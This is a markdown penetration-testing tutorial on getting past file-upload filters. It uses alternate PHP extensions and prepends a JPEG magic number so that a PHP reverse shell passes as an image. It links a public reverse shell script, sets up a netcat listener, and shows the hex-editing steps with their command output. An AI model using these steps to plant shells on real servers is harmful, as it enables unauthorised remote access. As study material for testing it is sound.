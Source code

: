 ### Files referenced within document:
1) **PHP Shell:** Pentest Monkey reverse shell [Link](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
	 * Before running shell make sure to have netcat listener set up to connect:
		`$ nc -lvnp 1234`
2) **List of file extentions with thier magic number:** [link](https://en.wikipedia.org/wiki/List_of_file_signatures)

# Bypassing File Upload Filtering
## Extension Validation
A method of validation there files are checked by their file extentions by compairng them against a whitelist or blacklist.

To bypass try changing to a different file exstention, for example
- if filename.php is blocked try: 
	-   .phtml
	-   .php3
	-   .php4
	-   .php5
	-   .phps

## Magic Numbers
Magic numbers can be used as a more accurate identifier of files. The magic number of a file is a string of hex digits, located within the first line of a file. Exploiting server-side filtering with magic numbers allows us to use magic numbers to validate file uploads by changing the first few bytes of a file we can upload a malicius .php file as a .jpg image allowing us to bypass a whitelist or a blacklist.

Referencing [list of file signatures on Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures) we see there are several possible magic numbers of JPEG files, example: `FF D8 FF DB`

1) Check the file type of your shell: `$ file shell.php`
	* Should recieve a simular output to:
		`shell.php: PHP script, ASCII text`
		As expected, the command tells us that the filetype is PHP

2) open up the reverse shell script and add four random characters on the first line: <br>`$ nano shell.php`
	* First three lines of your file should look simular to:
		```
		AAAA
		<?php
		// php-reverse-shell - A Reverse Shell implementation in PHP`
		```
	
	* ***TIP:** Add the number of A's = to the number of hex you will change to aviod breaking the shell code.

3) Save the file and exit. Next we're going to reopen the file in `hexeditor` (which comes by default on Kali): `$ hexeditor shell.php`
	* First line should look simular to:
		`00000000  41 41 41 41  0A 3C 3F 70   68 70 0A 2F  2F 20 70 68`
	* Note the four bytes in the red box: they are all `41`, which is the hex code for a capital "A" -- exactly what we added at the top of the file previously.
	* Change this to the magic number we found earlier for JPEG files: `FF D8 FF DB`
		`00000000  FF D8 FF DB  0A 3C 3F 70   68 70 0A 2F  2F 20 70 68`
	* Now when we do `file` we can see that we have spoofed the PHP to JPEG
		```
		$ file shell.php
		shell.php: JPEG image data
		```
